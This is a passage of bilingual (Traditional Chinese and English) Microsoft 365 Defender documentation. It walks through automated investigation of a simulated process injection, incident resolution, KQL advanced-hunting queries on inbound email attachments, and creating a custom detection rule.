### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="1af7f-233">審閱使用者資訊 [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="1af7f-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="1af7f-234">在 [事件] 頁面上，選取 [ **使用者** ] 索引標籤，以顯示攻擊相關的使用者清單。</span><span class="sxs-lookup"><span data-stu-id="1af7f-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="1af7f-235">該表包含每個使用者的詳細資訊，包括每個使用者的 **調查優先順序** 分數。</span><span class="sxs-lookup"><span data-stu-id="1af7f-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="1af7f-236">選取 [使用者名稱]，以開啟可以進行進一步調查的使用者設定檔頁面。</span><span class="sxs-lookup"><span data-stu-id="1af7f-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="1af7f-237">[閱讀有關調查危險使用者的詳細資訊](/cloud-app-security/tutorial-ueba#identify)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="1af7f-239">自動化調查與補救措施</span><span class="sxs-lookup"><span data-stu-id="1af7f-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="1af7f-240">在進行這項模擬之前，請觀看下列影片，瞭解自動自我修復功能的相關資訊，以及如何在入口網站中找到它，以及如何協助您進行安全性作業：</span><span class="sxs-lookup"><span data-stu-id="1af7f-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="1af7f-241">在 Microsoft 365 的安全性中心入口網站中，向後流覽至該事件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="1af7f-242">[**事件**] 頁面中的 [**調查**] 索引標籤會顯示 microsoft Defender 身分識別和 microsoft defender for Endpoint 所觸發的自動調查。</span><span class="sxs-lookup"><span data-stu-id="1af7f-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="1af7f-243">下列螢幕擷取畫面只會顯示由 Defender for Endpoint 所觸發的自動調查。</span><span class="sxs-lookup"><span data-stu-id="1af7f-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="1af7f-244">依預設，Defender for Endpoint 會自動 remediates 在佇列中找到的專案，這需要進行修復。</span><span class="sxs-lookup"><span data-stu-id="1af7f-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="1af7f-246">選取觸發調查的警示，以開啟 [ **調查詳細資料** ] 頁面。</span><span class="sxs-lookup"><span data-stu-id="1af7f-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="1af7f-247">您將會看到下列詳細資料：</span><span class="sxs-lookup"><span data-stu-id="1af7f-247">You'll see the following details:</span></span>

- <span data-ttu-id="1af7f-248">觸發自動調查的警示 (s) 。</span><span class="sxs-lookup"><span data-stu-id="1af7f-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="1af7f-249">受影響的使用者和裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-249">Impacted users and devices.</span></span> <span data-ttu-id="1af7f-250">如果在其他裝置上找到指示器，也會列出這些額外裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="1af7f-251">證據清單。</span><span class="sxs-lookup"><span data-stu-id="1af7f-251">List of evidence.</span></span> <span data-ttu-id="1af7f-252">找到並分析的實體，例如檔案、進程、服務、驅動程式和網路位址。</span><span class="sxs-lookup"><span data-stu-id="1af7f-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="1af7f-253">這些實體會進行分析，以取得警示的可能關係，並評為良性或惡意。</span><span class="sxs-lookup"><span data-stu-id="1af7f-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="1af7f-254">發現威脅。</span><span class="sxs-lookup"><span data-stu-id="1af7f-254">Threats found.</span></span> <span data-ttu-id="1af7f-255">調查期間找到的已知威脅。</span><span class="sxs-lookup"><span data-stu-id="1af7f-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-256">根據時間的不同，自動調查可能仍在執行中。</span><span class="sxs-lookup"><span data-stu-id="1af7f-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="1af7f-257">在您收集及分析證據並檢查結果之前，請等候幾分鐘完成處理常式。</span><span class="sxs-lookup"><span data-stu-id="1af7f-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="1af7f-258">重新整理「 **調查詳細資料** 」頁面以取得最新的結果。</span><span class="sxs-lookup"><span data-stu-id="1af7f-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="1af7f-260">在自動調查期間，Microsoft Defender for Endpoint 會識別出 notepad.exe 的處理常式，並將其注入為需要修正的其中一個專案。</span><span class="sxs-lookup"><span data-stu-id="1af7f-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="1af7f-261">Defender for Endpoint 會自動停止可疑的程式注入做為自動修復的一部分。</span><span class="sxs-lookup"><span data-stu-id="1af7f-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="1af7f-262">您可以在測試裝置上看到 [已執行的程式] 清單中 <i>notepad.exe</i> 會消失。</span><span class="sxs-lookup"><span data-stu-id="1af7f-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="1af7f-263">解決事件</span><span class="sxs-lookup"><span data-stu-id="1af7f-263">Resolve the incident</span></span>

<span data-ttu-id="1af7f-264">調查完成並確認待修正之後，請關閉該事件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="1af7f-265">選取 [ **管理事件**]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-265">Select **Manage incident**.</span></span> <span data-ttu-id="1af7f-266">將狀態設定為 [ **解決事件** ]，然後選取相關的分類。</span><span class="sxs-lookup"><span data-stu-id="1af7f-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="1af7f-267">當事件解決時，它會在 Microsoft 365 的安全性中心和相關的入口網站中關閉所有相關聯的警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

![[事件] 頁面的螢幕擷取畫面，其中包含「開啟的管理事件」面板，您可以在其中按一下參數來解決事件。](../../media/mtp/fig16.png)

<span data-ttu-id="1af7f-269">這可讓事件管理和自動化調查和修正案例的攻擊類比。</span><span class="sxs-lookup"><span data-stu-id="1af7f-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="1af7f-270">下一個模擬會透過主動威脅搜尋潛在的惡意檔案，將您引導。</span><span class="sxs-lookup"><span data-stu-id="1af7f-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="1af7f-271">高級搜尋案例</span><span class="sxs-lookup"><span data-stu-id="1af7f-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-272">在您完成類比之前，請觀看下列影片，瞭解高級搜尋概念，請參閱您可以在入口網站中找到的位置，以及瞭解如何在您的安全性作業中協助您進行下列動作：</span><span class="sxs-lookup"><span data-stu-id="1af7f-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="1af7f-273">搜尋環境需求</span><span class="sxs-lookup"><span data-stu-id="1af7f-273">Hunting environment requirements</span></span>

<span data-ttu-id="1af7f-274">此案例需要單一內部信箱和裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="1af7f-275">您也需要外部電子郵件帳戶來傳送測試郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="1af7f-276">確認您的租使用者已 [啟用 Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-276">Verify that your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>
2. <span data-ttu-id="1af7f-277">識別要用於接收電子郵件的目標信箱。</span><span class="sxs-lookup"><span data-stu-id="1af7f-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="1af7f-278">a.</span><span class="sxs-lookup"><span data-stu-id="1af7f-278">a.</span></span> <span data-ttu-id="1af7f-279">此信箱必須由 Microsoft Defender for Office 365 b 監控。</span><span class="sxs-lookup"><span data-stu-id="1af7f-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="1af7f-280">要求3裝置必須存取此信箱</span><span class="sxs-lookup"><span data-stu-id="1af7f-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="1af7f-281">設定測試裝置： a。</span><span class="sxs-lookup"><span data-stu-id="1af7f-281">Configure a test device: a.</span></span> <span data-ttu-id="1af7f-282">請確認您使用的是 Windows 10 版本1903或更新版本。</span><span class="sxs-lookup"><span data-stu-id="1af7f-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="1af7f-283">b.</span><span class="sxs-lookup"><span data-stu-id="1af7f-283">b.</span></span> <span data-ttu-id="1af7f-284">將測試裝置加入測試網域。</span><span class="sxs-lookup"><span data-stu-id="1af7f-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="1af7f-285">c.</span><span class="sxs-lookup"><span data-stu-id="1af7f-285">c.</span></span> <span data-ttu-id="1af7f-286">[開啟 Windows Defender 防毒軟體](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1af7f-287">如果您在啟用 Windows Defender 防病毒時遇到問題，請參閱 [此疑難排解主題](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="1af7f-288">d.</span><span class="sxs-lookup"><span data-stu-id="1af7f-288">d.</span></span> <span data-ttu-id="1af7f-289">[在 Microsoft Defender For Endpoint 上的板載](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。</span><span class="sxs-lookup"><span data-stu-id="1af7f-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="1af7f-290">執行模擬</span><span class="sxs-lookup"><span data-stu-id="1af7f-290">Run the simulation</span></span>

1. <span data-ttu-id="1af7f-291">從外部電子郵件帳戶，將電子郵件傳送至「測試環境需求」區段之步驟2中所識別的信箱。</span><span class="sxs-lookup"><span data-stu-id="1af7f-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="1af7f-292">包含可透過任何現有電子郵件篩選原則所允許的附件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="1af7f-293">此檔案不需要是惡意或可執行檔。</span><span class="sxs-lookup"><span data-stu-id="1af7f-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="1af7f-294">建議的檔案類型為 <i>.pdf</i>、 <i>.exe</i> (如果允許) 或 Office 檔（如 Word 檔案）。</span><span class="sxs-lookup"><span data-stu-id="1af7f-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="1af7f-295">從「測試環境需求」一節的步驟3中所設定的裝置，開啟已傳送的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="1af7f-296">開啟附件或將檔儲存到裝置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="1af7f-297">開始搜尋</span><span class="sxs-lookup"><span data-stu-id="1af7f-297">Go hunting</span></span>

1. <span data-ttu-id="1af7f-298">開啟 security.microsoft.com 入口網站。</span><span class="sxs-lookup"><span data-stu-id="1af7f-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="1af7f-299">流覽至 **搜尋 > 高級搜尋**。</span><span class="sxs-lookup"><span data-stu-id="1af7f-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="1af7f-301">建立以收集電子郵件事件開始的查詢。</span><span class="sxs-lookup"><span data-stu-id="1af7f-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="1af7f-302">在 [查詢] 窗格中，選取 [新增]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="1af7f-303">在架構中按兩下 [EmailEvents] 表格。</span><span class="sxs-lookup"><span data-stu-id="1af7f-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="1af7f-304">將時間範圍變更為過去24小時。</span><span class="sxs-lookup"><span data-stu-id="1af7f-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="1af7f-305">假設您在執行上述類比時所傳送的電子郵件是在過去24小時內，否則請變更時間範圍。</span><span class="sxs-lookup"><span data-stu-id="1af7f-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="1af7f-308">執行查詢。</span><span class="sxs-lookup"><span data-stu-id="1af7f-308">Run the query.</span></span> <span data-ttu-id="1af7f-309">根據試驗的環境而定，您可能會有許多結果。</span><span class="sxs-lookup"><span data-stu-id="1af7f-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="1af7f-310">請參閱下一個步驟，篩選選項以限制資料傳回。</span><span class="sxs-lookup"><span data-stu-id="1af7f-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="1af7f-312">「高級搜尋」會以表格式資料顯示查詢結果。</span><span class="sxs-lookup"><span data-stu-id="1af7f-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="1af7f-313">您也可以選擇以其他格式類型（如圖表）來查看資料。</span><span class="sxs-lookup"><span data-stu-id="1af7f-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="1af7f-314">查看結果，查看是否可以識別您開啟的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="1af7f-315">最多可能需要2個小時的時間，郵件才會顯示在高級搜尋中。</span><span class="sxs-lookup"><span data-stu-id="1af7f-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="1af7f-316">如果電子郵件環境很大，而且有許多結果，您可能想要使用 [ **顯示篩選] 選項** 來尋找郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="1af7f-317">在範例中，電子郵件是從 Yahoo 帳戶傳送。</span><span class="sxs-lookup"><span data-stu-id="1af7f-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="1af7f-318">按一下 [SenderFromDomain] 區段底下的 [ **+** **yahoo.com** ] 旁的圖示，然後按一下 [套用 **]，** 將選取的網域新增至查詢。</span><span class="sxs-lookup"><span data-stu-id="1af7f-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="1af7f-319">在執行模擬以篩選結果的步驟1中，使用用於傳送測試郵件的網域或電子郵件帳戶。</span><span class="sxs-lookup"><span data-stu-id="1af7f-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="1af7f-320">再次執行查詢以取得較小的結果集，以確認您看到類比中的郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="1af7f-323">按一下查詢中產生的資料列，以便檢查記錄。</span><span class="sxs-lookup"><span data-stu-id="1af7f-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="1af7f-325">現在，您已確認您可以看到電子郵件，新增附件的篩選器。</span><span class="sxs-lookup"><span data-stu-id="1af7f-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="1af7f-326">在環境中著重于所有包含附件的電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="1af7f-327">在此情況下，會將焦點移到輸入電子郵件，而不是從您的環境寄出。</span><span class="sxs-lookup"><span data-stu-id="1af7f-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="1af7f-328">移除您已新增的任何篩選，以找出郵件並新增 "|其中 **AttachmentCount > 0** 和 **EmailDirection**  ==  **"Inbound" "**</span><span class="sxs-lookup"><span data-stu-id="1af7f-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="1af7f-329">下列查詢會顯示結果，其清單比您的所有電子郵件事件的初始查詢更短：</span><span class="sxs-lookup"><span data-stu-id="1af7f-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="1af7f-330">接下來，包含附件的相關資訊 (例如：檔案名、雜湊) 結果集。</span><span class="sxs-lookup"><span data-stu-id="1af7f-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="1af7f-331">若要這麼做，請加入 **EmailAttachmentInfo** 表格。</span><span class="sxs-lookup"><span data-stu-id="1af7f-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="1af7f-332">在此情況下，要用於加入的一般欄位是 **NetworkMessageId** 和 **RecipientObjectId**。</span><span class="sxs-lookup"><span data-stu-id="1af7f-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="1af7f-333">下列查詢也包含其他行 "| **project-Rename EmailTimestamp = Timestamp**"，可協助識別與您將在下一個步驟中新增之檔案動作相關的電子郵件與時間戳記有關的時間戳記。</span><span class="sxs-lookup"><span data-stu-id="1af7f-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="1af7f-334">接下來，使用 **EmailAttachmentInfo** 表格中的 **SHA256** 值，尋找在該雜湊的端點) 上發生的 **DeviceFileEvents** (檔案動作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="1af7f-335">這裡的一般欄位將會是附件的 SHA256 雜湊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="1af7f-336">產生的表格現在包含端點 (Microsoft Defender for Endpoint) （例如裝置名稱）、已完成的動作 (在此情況下，篩選為只包括 FileCreated 事件) ，以及儲存檔案的位置。</span><span class="sxs-lookup"><span data-stu-id="1af7f-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="1af7f-337">也會包含與處理常式相關聯的帳戶名稱。</span><span class="sxs-lookup"><span data-stu-id="1af7f-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="1af7f-338">您現在已經建立了一個查詢，它會識別所有使用者開啟或儲存附件的輸入電子郵件。</span><span class="sxs-lookup"><span data-stu-id="1af7f-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="1af7f-339">您也可以精煉此查詢，以篩選特定寄件者網域、檔案大小、檔案類型等等。</span><span class="sxs-lookup"><span data-stu-id="1af7f-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="1af7f-340">函數是一種特殊的聯接方式，可讓您將更多的 TI 資料（如其流行、簽署者資訊等等）提取到更多的檔。若要取得檔案的詳細資料，請使用 **FileProfile ()** 函數豐富：</span><span class="sxs-lookup"><span data-stu-id="1af7f-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="1af7f-341">建立偵測</span><span class="sxs-lookup"><span data-stu-id="1af7f-341">Create a detection</span></span>

<span data-ttu-id="1af7f-342">當您建立一個查詢，識別您想要針對未來的情況收到 **警示** 的資訊時，您可以從查詢建立自訂偵測。</span><span class="sxs-lookup"><span data-stu-id="1af7f-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="1af7f-343">自訂偵測會根據您設定的頻率執行查詢，而查詢的結果會根據您所選擇的受影響資產，建立安全性警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="1af7f-344">這些警示會與事件相關聯，而且可以被會審為其中一項產品所產生的任何其他安全性警示。</span><span class="sxs-lookup"><span data-stu-id="1af7f-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="1af7f-345">在 [查詢] 頁面上，移除 [前往搜尋指示] 的步驟7中所新增的行7和8，然後按一下 [ **建立偵測規則**]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   ![可在 [高級搜尋] 頁面中按一下 [建立偵測規則] 的螢幕擷取畫面](../../media/mtp/fig22.png)

   > [!NOTE]
   > <span data-ttu-id="1af7f-347">如果您按一下 [ **建立偵測規則** ]，並在查詢中有語法錯誤，則您的偵測規則不會儲存。</span><span class="sxs-lookup"><span data-stu-id="1af7f-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="1af7f-348">請加倍檢查您的查詢，確定沒有任何錯誤。</span><span class="sxs-lookup"><span data-stu-id="1af7f-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="1af7f-349">請填入必要的欄位，其中包含可讓安全性小組瞭解提醒的資訊、它的產生原因，以及您預期採取的動作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中定義警示詳細資料](../../media/mtp/fig23.png)

   <span data-ttu-id="1af7f-351">請務必以清晰的方式填寫欄位，以協助下一使用者對此偵測規則警示作出明智的決定。</span><span class="sxs-lookup"><span data-stu-id="1af7f-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="1af7f-352">選取此警示會影響哪些實體。</span><span class="sxs-lookup"><span data-stu-id="1af7f-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="1af7f-353">在此情況下，請選取 [ **裝置** 和 **信箱**]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-353">In this case, select **Device** and **Mailbox**.</span></span>

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中選擇受影響實體的參數](../../media/mtp/fig24.png)

4. <span data-ttu-id="1af7f-355">決定觸發警示時應執行的動作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="1af7f-356">在此情況下，請執行防病毒掃描，但可以採取其他動作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中觸發警示時執行防病毒掃描，以協助解決威脅](../../media/mtp/fig25.png)

5. <span data-ttu-id="1af7f-358">選取警示規則的範圍。</span><span class="sxs-lookup"><span data-stu-id="1af7f-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="1af7f-359">因為此查詢包含裝置，所以裝置群組在此自訂偵測中會根據 Microsoft Defender for Endpoint coNtext 而相關。</span><span class="sxs-lookup"><span data-stu-id="1af7f-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="1af7f-360">當您建立未包括裝置作為受影響實體的自訂偵測時，不適用範圍。</span><span class="sxs-lookup"><span data-stu-id="1af7f-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   ![[建立偵測規則] 頁面的螢幕擷取畫面，您可以在其中設定警示規則的範圍，以管理您將看到的結果預期](../../media/mtp/fig26.png)

   <span data-ttu-id="1af7f-362">在此試驗中，您可能會想要將此規則限制在實際執行環境中的測試裝置子集。</span><span class="sxs-lookup"><span data-stu-id="1af7f-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="1af7f-363">選取 [建立]。</span><span class="sxs-lookup"><span data-stu-id="1af7f-363">Select **Create**.</span></span> <span data-ttu-id="1af7f-364">然後，選取導覽窗格中的 **自訂偵測規則** 。</span><span class="sxs-lookup"><span data-stu-id="1af7f-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   ![顯示規則和執行詳細資料之 [偵測規則] 頁面的螢幕擷取畫面](../../media/mtp/fig27b.png)

   <span data-ttu-id="1af7f-367">在此頁面中，您可以選取將會開啟詳細資料頁面的偵測規則。</span><span class="sxs-lookup"><span data-stu-id="1af7f-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   ![[電子郵件附件] 頁面的螢幕擷取畫面，您可以在其中看到規則執行、觸發的警示和動作狀態、編輯偵測等等。](../../media/mtp/fig28.png)

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="1af7f-369">其他的高級搜尋指導-透過練習</span><span class="sxs-lookup"><span data-stu-id="1af7f-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="1af7f-370">若要深入瞭解「高級搜尋」，下列網路廣播會逐步引導您透過 Microsoft 365 Defender 中的「高級搜尋」功能來建立跨 pillar 查詢、從多個實體切換至實體，以及建立自訂偵測和修正動作。</span><span class="sxs-lookup"><span data-stu-id="1af7f-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="1af7f-371">請使用您自己的 GitHub 帳戶進行準備，以在試驗測試實驗室環境中執行搜尋查詢。</span><span class="sxs-lookup"><span data-stu-id="1af7f-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

